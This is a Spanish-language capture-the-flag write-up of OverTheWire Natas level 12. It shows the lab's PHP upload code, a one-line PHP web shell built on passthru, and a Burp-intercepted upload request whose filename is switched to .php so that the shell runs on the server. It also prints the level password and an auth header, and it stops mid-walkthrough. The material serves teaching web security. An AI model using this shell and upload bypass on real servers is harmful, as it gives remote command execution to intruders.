#Natas Level 11 → Level 12

Username: natas12

URL:      http://natas12.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas12.natas.labs.overthewire.org** 
- **Usuario    : natas12**
- **Contraseña : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**

La contraseña la hemos sacado del nivel anterior.

Entramos a la prueba y nos muestra un mensaje en el que nos dice que podemos subir un fichero **JPEG** pero con un **límite máximo** de **1KB**

```html
Choose a JPEG to upload (max 1KB):
```

Vamos a ver que vemos en el código fuente de la prueba:

```php
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() 
{ 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) 
    { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 
    return $string; 
} 

function makeRandomPath($dir, $ext) 
{ 
    do 
    { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) 
{ 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

  if(array_key_exists("filename", $_POST)) 
  { 
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
  
          if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) 
          { 
            echo "File is too big"; 
          } 
          else 
          { 
              if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) 
              { 
                  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
              } 
              else
              { 
                  echo "There was an error uploading the file, please try again!"; 
              } 
          } 
  } 
  else 
  { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
    <input name="uploadedfile" type="file" /><br /> 
    <input type="submit" value="Upload File" /> 
</form> 

<? 
  } 
?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
```

Intentamos subir un fichero pero nos da un error probablemente relacionado con el tamaño del fichero (>1KB):

```html
There was an error uploading the file, please try again!
```

Parece que esta prueba trata de subir un fichero, en principio un **JPG**, que nos permita obtener la contraseña del reto. 

También hemos pensado que podemos **engañar** al sistema subiendo un fichero **php** con terminación en **JPG**. 

Algo así como esto:

```php
phpShell.php.jpg
```

El programa solamente mirará si la extensión del fichero es **JPG** y lo subirá la servidor.

Programamos una **Shell** en **PHP** muy sencilla que nos permitirá lanzar comandos en el servidor

```php
<?php
 passthru($_GET['cmd']);  
?>
```

Lo guardamos como **phpShell.php.jpg** con un tamaño de **35bytes** y lo intentamos subir. 

Con esto estaríamos pasando el filtro del **Tamaño* y el filtro de la **Extensión**

Pulsamos el botón de subir y nos sale este mensaje:

```html
The file upload/28plb5h3bh.jpg has been uploaded
```

Accedemos a la dirección y efectivamente tenemos nuestro objeto subido. Le intentamos cambiar la extensión a **.php** e introducirle algun comando, pero no responde.

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.jpg?cmd=ls 
```

ni tampoco con

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.php?cmd=ls 
```

Volvemos a leer el código fuente y nos damos cuenta que las funciones **makeRandomPathFromFilename** y **makeRandomPath** eliminan todo el texto anterior a la extensión **jpg**

Tenemos que conseguir **interceptar** el contenido que se envia y cambiarle la extensión a **.php** una vez que ha pasado el filtro de comprobación **jpg**

Para ello vamos a utilizar la herramienta **BURP** que podemos encontrar en la distro de Linux para **Pentesting** - **Kali Linux**

Configuramos el **proxy** del navegador apuntando al **localhost:8080** donde estará **BURP** escuchando para que luego podamos modificar los datos a nuestro antojo.

Subimos el fichero **phpShell.php.jpg** y luego lo cambiaremos luego con el **BURP**

Obtenemos lo siguiente:

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------17458871318756377591816066944
Content-Length: 515

-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

ujofljdn2f.jpg
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

<?
passthru($GET_['cmd']);
?>
-----------------------------17458871318756377591816066944--
```

Interceptamos el tráfico y modificamos el valor de **filename**:
- ujofljdn2f.jpg -> phpShell.php

quedando:

```html
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

phpShell.php
```

Le damos a **Forward** en **BURP** y nos indica que hemos **subido correctamente** el fichero a la siguiente dirección

```html
The file upload/ujofljdn2f.php has been uploaded
```

Entramos en la **URL** que nos han proporcionado y nos muestra este mensaje:

```php
Notice: Undefined variable: GET_ in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
Warning: passthru(): Cannot execute a blank command in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
```

Nos dice que no puede **ejecutar** un **comando en blanco**, por lo tanto **si** podemos enviarle comandos a través de la **URL**! :smile:

Montamos la **URL**



 












 





